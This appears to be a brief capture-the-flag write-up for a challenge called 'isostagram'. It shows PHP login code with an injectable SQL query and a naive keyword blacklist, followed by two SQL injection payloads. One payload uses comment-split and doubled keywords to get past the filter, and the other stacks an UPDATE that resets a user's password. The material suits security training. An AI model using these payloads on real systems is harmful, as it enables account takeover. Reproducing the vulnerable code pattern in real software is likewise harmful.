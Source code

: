 # isostagram
sql injection


php src
```php
$blacklist = array("union", "select", "where", "and", "or");
$replace = array("", "", "", "", "");
$username = str_ireplace($blacklist, $replace, $username);
$password = str_ireplace($blacklist, $replace, $password);
$sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";
```
`kita0421`

payload
1. 
```SQL
' O/**/R '1' = '1; UPDATE users SET `password`= '123' WH/**/ERE `username` = 'kita0421';--

```
2. 
```SQL
1' OORR '1' = '1' limit 1; --
```
